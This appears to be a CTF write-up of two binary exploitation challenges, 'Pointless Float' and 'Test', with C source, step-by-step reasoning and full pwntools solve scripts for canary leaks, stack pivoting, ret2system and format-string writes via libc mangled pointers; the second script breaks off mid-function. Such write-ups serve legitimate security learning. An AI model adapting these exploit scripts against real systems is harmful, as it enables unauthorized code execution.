










This is a National CTF Challenge, just got my first time full sweep pwn challenges :?



# Pwn - Pointless Float

## Introduction 



## Source Code

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void function1() {
  char buf[16];

  printf("Congrats for passing my first challenge, what's your name?\n> ");
  read(0, buf, 25);
  printf("\nOh, hi %s. Nice to meet you\n", buf);
  printf("This is my first year in uni, how 'bout you?\n> ");
  read(0, buf, 25);
}

void function2() {
  long numbers[10];
  int c;

  printf("What's the magic number?\n> ");
  scanf("%f", (float *)&c);
  getchar();
  if (c == 147) function3(numbers);
  
  write(1, "I'm going to give you another chance to\nchange your numbers, what would you like to change it to\n> ", 99);
  read(0, (void *)&numbers[0], 96);
  write(1, "\nHaha just kidding, i'm out of ideas tbh...\n", 44);
}

void function3(long *numbers) {
  char hacker_name[20];

  printf("Wow, i'm impressed you got it this far.\nYou should consider making a hacker name,\nyou know, the cool names hackers give themselves\n> ");
  read(0, hacker_name, 38);

  printf("\nNow for the next part, please give me 10 integers plz\n> ");
  for (int i = 0; i < 10; ++i)
    scanf("%ld", &numbers[i]);
  getchar(); 
}

int main() {
  float random;
  FILE *fd = fopen("/dev/urandom", "r");
  if (fd == 0) {
    printf("failed reading /dev/urandom\n");
    exit(-1);
  }
  fgets((void *)&random, sizeof(random), fd);
  fclose(fd);

  float guess;
  printf("What's your guess, buddy?\n> ");
  scanf("%f", &guess);
  getchar();
  if (!(guess < random || guess > random)) function1();

  float a;
  double b;
  printf("Now, give me two special numbers!\n> ");
  scanf("%f %lf", &a, &b);
  getchar();
  if (a == 0 || b == 0) {
    printf("You're not allowed to input zero!\n");
    exit(0);
  }
  if (strncmp((void *)&a, (void *)&b, 4) == 0) function2();
}

__attribute__((constructor))
void setup(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}
```

## Summary

Using `function1` to leak stack and canary then enter `function2` to enter `function3`. Then in the `function3` overflow to return to overwrite pivot address to `stack + 0x8` that contain `_start`. After that just repeat to leak the libc and pivot it to our buffer to do `ret2system`

## Solution

Given a binary file with `chall` and `chall.c`, when viewing the source code, there is a check to enter `function1`.

```c
printf("What's your guess, buddy?\n> ");
scanf("%f", &guess);
getchar();
if (!(guess < random || guess > random)) function1();
```

To meet this requirement, you can provide the value `nan` which is neither greater nor less than the value because it is uncertain. 

```python
sla("> ", "nan")
```


```c
void function1() {
    char buf[16];

    printf("Congrats for passing my first challenge, what's your name?\n> ");
    read(0, buf, 25);
    printf("\nOh, hi %s. Nice to meet you\n", buf);
    printf("This is my first year at university, how 'bout you?\n>");
    read(0, buf, 25);
}
```
In the function 1 we see there is an overflow and also store at the stack. So we can overflow to leak the canary and the stack first, then fix the canary to prevent stack smashing. 

```python
offset = 0x18
payload = flat({offset:[]}, filler=b"\x41")
sa("> ", payload + b"\x41") # touch canary one byte
ru("A"*0x19)
canary = u64(r(7).ljust(8, b"\x00")) << 8
stack = u64(ru(". ").ljust(8, b"\x00"))
target = stack + 0xd8 #pivot to _start
sa("> ", payload + b"\x00") # Fix canary
```

Next, we'll ask for two inputs, where the values cannot be 0 and must be the same.

```c
printf("Now, give me two special numbers!\n>");
scanf("%f %lf", &a, &b);
getchar();
if (a == 0 || b == 0) {
printf("You're not allowed to input zero!\n");
exit(0);
}
if (strncmp((void *)&a, (void *)&b, 4) == 0) function2();
```
Just give `1 1` and enter `function2`.

```python
sla("> ", "1 1")
```

In `function2` there is an overflow and also checking if c is equal to 147 goes to function3

```c
void function2() { 
    long numbers[10]; 
    int c; 

    printf("What's the magic number?\n> "); 
    scanf("%f", (float *)&c); 
    getchar(); 
    if (c == 147) function3(numbers); 

    write(1, "I'm going to give you another chance to\nchange your numbers, what would you like to change it to\n> ", 99); 
    read(0, (void *)&numbers[0], 96); 
    write(1, "\nHaha just kidding, I'm out of ideas tbh...\n", 44);
}
```

To enter function3 just input 147 in float with struct `struct.unpack('!f', struct.pack('!I', 147))[0]`. 

```python
bits = 147
payload = struct.unpack('!f', struct.pack('!I', bits))[0]
sla("> ", str(payload).encode())
```

Then you can see that there is another overflow in function3.

```c
void function3(long *numbers) { 
    char hacker_name[20]; 

    printf("Wow, I'm impressed you got it this far.\nYou should consider making a hacker name,\nyou know, the cool names hackers give themselves\n> "); 
    read(0, hacker_name, 38); 

    printf("\nNow for the next part, please give me 10 integers plz\n> "); 
    for (int i = 0; i < 10; ++i)
        scanf("%ld", &numbers[i]);
    getchar();
}
```

After providing input, it returns to `function2` and asks for the last input. However, after input, the program terminates.

So, to get the program back, we can use the overflow in function3 to pivot at the exit, where `stack + 0x8` contains `_start`.



Here i use "x" to skip the 10 integer number input. Then, at the last input, just fill it with canary 12 times (just to bypass the canary check).
```python
target = stack + 0xd8 #pivot to _start
sa("> ", p64(canary)*4 + p64(target)[:6])
sa("> ", b"x") #So it fail and pass the scanf function
sa("> ", p64(canary)*12) # just need the 96 = canary, this is for easier
```

After that, we just repeat the input as before and enter function1 to leak libc. Then, just enter `function2` and pivot the address to the input numbers so that when ret is read, it can be `RIP`, which will be filled with `ret2system`.

```python
sa("> ", ret2system() + p64(canary)*8)
```



### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from logging import log
import time
from subprocess import Popen
from pwncli import *
import struct

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "103.160.212.3", 1470

gdbscript = '''
init-pwndbg
b *function2+179
b *read+25
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def ret2system():
    rop = ROP(libc)
    rop.raw(rop.ret.address)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()

def exploit():
    global io
    io = initialize()
    with log.progress("Leak canary & stack"), context.silent:
        sla("> ", "nan")
        offset = 0x18
        payload = flat({offset:[]}, filler=b"\x41")
        sa("> ", payload + b"\x41") # touch canary one byte
        ru("A"*0x19)
        canary = u64(r(7).ljust(8, b"\x00")) << 8
        stack = u64(ru(". ").ljust(8, b"\x00"))
        target = stack + 0xd8 #pivot to _start
        sa("> ", payload + b"\x00") # Fix canary
    leak("Canary", hex(canary))
    leak("Stack", hex(stack))
    leak("Target", hex(target))

    with log.progress("Overwrite and pivot to _start"), context.silent:
        sla("> ", "1 1")
        bits = 147
        payload = struct.unpack('!f', struct.pack('!I', bits))[0]
        sla("> ", str(payload).encode())
        sa("> ", p64(canary)*4 + p64(target)[:6])
        sa("> ", b"x") #So it fail and pass the scanf function
        sa("> ", p64(canary)*12) # just need the 96 = canary this is for easier

    with log.progress("Leak libc"), context.silent:
        sla("> ", "nan")
        sa("> ", b"A"*8)
        ru("A"*8)
        libc_leak = u64(ru(". ").ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["_IO_default_uflow"] + 50)
        target = target - 0x160 #pivot to input
        sa("> ", b"A") # anythin small cuz didn't touch canary
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address))
    leak("Next Target", hex(target))

    with log.progress("BOF to ret2system"), context.silent:
        sla("> ", "1 1")
        sla("> ", str(payload).encode())
        sa("> ", p64(canary)*4 + p64(target)[:6])
        sa("> ", b"x")
        debug()
        sa("> ", ret2system() + p64(canary)*8)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`hacktoday{jU5t_A_B1t_0f_fl04Ts_4Nd_P1V0tIn9_15_4ll}`
    
# Pwn - Test

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void io_setup(void) {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv, char **envp) {
    char input_buf[264];
    printf("%p", (void*)input_buf);
    fgets(input_buf, 256, stdin);
    printf(input_buf);
    _exit(0);
}
```

## Summary

Use format strings to overwrite return address at `printf` to main while leaking libc address. Then make function to write return address to main while write 2 bytes and combine it to gain write 8 bytes. After that just use `www2exec` via `initial` mangled pointer and overwrite the return address to `exit`.

## Solution

Given an `a.out` and a `Dockerfile`, I first grabbed libc and ld from the Dockerfile, then pwninit for patching and stripping to get symbols. After that, i decompiled it and saw that there was a format string in main.

```c
int main(int argc, char **argv, char **envp) {
    char input_buf[264];
    printf("%p", (void*)input_buf);
    fgets(input_buf, 256, stdin);
    printf(input_buf);
    _exit(0);
}
```

If you look at the input using `fgets`, fgets accepts nullbytes, but when printf it stops at nullbytes. So, our input structure must first format the strings and then the target address. To find the offset, you can input `AAAABBBB%{num}$p`.




So, my idea here is to overwrite the printf return address to main while leaking libc. Then, for the second input, we can write 2 bytes, then return to main and combine them to get an 8-byte write. To ensure the input matches, simply look at the target address and calculate the offset.



For this example i use write to libc.bss() -> 0.

```python
def write2bytes(target, value): 
    ru("0x") 
    stack = int(r(12),16) 
    ret = stack - 0x18 # Updating next ret 
    offset = 8 
    payload = f"%{0x7a}c%{offset+4}$hhn%{(u16(value) + 0xff86) & 0xffff}c%{offset+5}$hn".encode().ljust(0x20, b"\x00") + p64(ret) + p64(target) 
    sl(payload)

def write(target, value): 
    for i in range(0, len(value), 2): 
        write2bytes(target + i, value[i:i+2])
```

For the exploitation idea, I used the 6th technique in [WWW2Exec](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#6---code-execution-via-other-mangled-pointers-in-initial-structure)

```python
write(cookie, p64(0))
write(libc.sym["initial"]+24, p64(libc.sym["system"] << 17) + p64(ns(libc, b"/bin/sh\0")))
```

Now just overwrite return address printf to exit. Here i use exit + 5 because of alignment problems.

```python
sl(fmtstr_payload(offset, writes={ret:libc.sym["exit"] + 5}, write_size='short'))
```



### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './a.out_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "103.174.115.12", 5000


gdbscript = f'''
init-pwndbg
b *exit
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-gef
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='a.out')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def write2bytes(target, value):
    ru("0x")
    stack = int(r(12),16)
    ret = stack - 0x18 # Updating next ret
    offset = 8
